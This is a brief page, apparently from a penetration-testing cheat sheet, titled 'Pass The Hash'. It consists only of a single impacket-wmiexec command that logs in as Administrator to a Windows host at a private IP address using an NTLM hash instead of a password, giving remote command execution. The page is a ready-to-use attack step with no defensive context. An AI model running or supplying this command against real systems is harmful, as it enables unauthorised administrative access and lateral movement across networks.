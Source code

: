 # Pass The Hash

### Wmiexec

{% code overflow="wrap" %}
```sh
impacket-wmiexec -hashes :2892D26CDF84D7A70E2EB3B9F05C425E Administrator@192.168.50.73
```
{% endcode %}



